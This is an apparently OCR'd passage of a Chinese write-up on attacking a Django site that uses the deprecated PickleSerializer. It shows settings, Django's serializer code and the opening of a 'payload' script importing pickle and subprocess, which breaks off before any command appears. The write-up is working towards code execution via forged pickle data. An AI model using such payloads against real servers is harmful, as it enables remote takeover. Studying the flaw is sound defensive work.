 ```
    {
        'NAME': 'django.contrib.auth.password_validation.MinimumLengthValidator',
    },
    {
        'NAME': 'django.contrib.auth.password_validation.CommonPasswordValidator',
    },
    {
        'NAME': 'django.contrib.auth.password_validation.NumericPasswordValidator',
    },
]


# Internationalization
# https://docs.djangoproject.com/en/2.2/topics/i18n/

LANGUAGE_CODE = 'zh-Hans'

TIME_ZONE = 'Asia/Shanghai'

USE_I18N = True

USE_L10N = True

USE_TZ = True


# Static files (CSS, JavaScript, Images)
# https://docs.djangoproject.com/en/2.2/howto/static-files/

STATIC_URL = '/static/'

LOGIN_URL = '/'
```
采用PickleSerializer
```python
class PickleSerializer:
    """
    Simple wrapper around pickle to be used in signing.dumps()/loads() and
    cache backends.
    """

    def __init__(self, protocol=None):
        warnings.warn(
            "PickleSerializer is deprecated due to its security risk. Use "
            "JSONSerializer instead.",
            RemovedInDjango50Warning,
        )
        self.protocol = pickle.HIGHEST_PROTOCOL if protocol is None else protocol

    def dumps(self, obj):
        return pickle.dumps(obj, self.protocol)

    def loads(self, data):
        return pickle.loads(data)
```
payload：
```python
from django.http import HttpResponse
import django.core.signing
import pickle
import subprocess

class PickleSerializer(object):
    def dumps(self, obj):
```